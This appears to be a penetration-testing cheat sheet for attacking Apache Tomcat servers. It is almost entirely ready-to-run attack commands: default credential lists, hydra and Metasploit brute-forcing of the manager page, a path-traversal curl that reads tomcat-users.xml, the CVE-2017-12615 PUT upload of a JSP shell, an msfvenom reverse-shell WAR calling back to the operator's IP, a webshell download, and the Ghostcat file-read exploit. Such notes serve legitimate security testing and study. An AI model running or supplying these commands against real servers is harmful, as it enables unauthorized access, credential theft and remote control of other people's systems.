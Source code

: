 ###     Key Files
- `conf/tomcat-users.xml` - Contains users and roles
- `webapps/APP/WEB-INF/web.xml` - Application configuration
- `webapps/APP/WEB-INF/classes/` - Compiled Java classes


### Default credentials:
- `tomcat:tomcat`
- `admin:admin`
- `role1:role1`
- `both:tomcat`

```bash
# Brute Force 
hydra -L users.txt -P passwords.txt target http-get /manager/html

# Extract Credentials from tomcat-users.xml If you have LFI:
curl http://target/vuln.jsp?file=../../../../conf/tomcat-users.xml

# CVE-2017-12615 (PUT Method RCE)
curl -X PUT http://target:8080/shell.jsp/ -d @shell.jsp
```

## Reverse Shell (After login)
```bash
# Create JSP shell:
msfvenom -p java/jsp_shell_reverse_tcp LHOST=YOUR_IP LPORT=4444 -f war > shell.war

# Alternative JSP Shell
wget https://raw.githubusercontent.com/tennc/webshell/master/fuzzdb-webshell/jsp/cmd.jsp
zip -r shell.war cmd.jsp
```
- Access /manager/html
- Upload WAR file
- Access deployed shell at /shell/


### Brute Force Attacks
- msfconsole
```bash
use auxiliary/scanner/http/tomcat_mgr_login
set RHOSTS <target_ip>
set RPORT <port>
set STOP_ON_SUCCESS true
set VHOST <domain_if_needed>
run
```
- python script
```bash
python3 tomcat_brute.py -U http://target:8080 -P /manager/html -u users.txt -p passwords.txt
```
 
 ## Ghostcat Exploit (CVE-2020-1938)
 ```bash
 # Exploit (LFI)
 # https://github.com/YDHCUI/CNVD-2020-10487-Tomcat-Ajp-lfi
 python2 tomcat-ajp-lfi.py target -p 8009 -f WEB-INF/web.xml
```



##### Roles explained:
- `manager-gui`: access /manager/html
- `manager-script`: HTTP API access
- `manager-status`: status page only
- `admin-gui`: full admin access